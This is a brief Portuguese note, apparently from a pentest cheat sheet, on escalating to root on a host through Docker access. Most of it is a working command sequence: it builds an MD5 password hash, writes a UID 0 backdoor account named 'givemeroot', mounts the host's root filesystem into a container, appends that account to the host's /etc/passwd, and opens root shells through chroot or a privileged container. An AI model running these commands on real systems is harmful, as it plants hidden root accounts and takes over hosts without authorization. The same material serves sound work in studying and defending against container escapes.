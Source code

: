 Como containers são executados como root basta montar o diretório `/` na pasta `mnt` do container e modificar o arquivo `/etc/passwd`

Para gerar uma senha criptografada com md5crypt para inserir no arquivo passwd:
```sh
openssl passwd -1 -salt evil <passwd>
```
```sh
hpass=$(openssl passwd -1 -salt evil <passwd>)
echo -e "givemeroot:$hpass:0:0:root:/root:/bin/bash" > new_account
mv new_account /tmp/new_account
```
```sh
docker run --rm -tid -v /:/mnt/ alpine
docker exec -ti $(docker ps -a -q) sh
```
```sh
cat /mnt/tmp/new_account >> /mnt/etc/passwd
```
```sh
docker run --rm -it -v /:/mnt/ ubuntu chroot /mnt/ sh
# or
docker run --rm -it --pid=host --privileged ubuntu sh
```
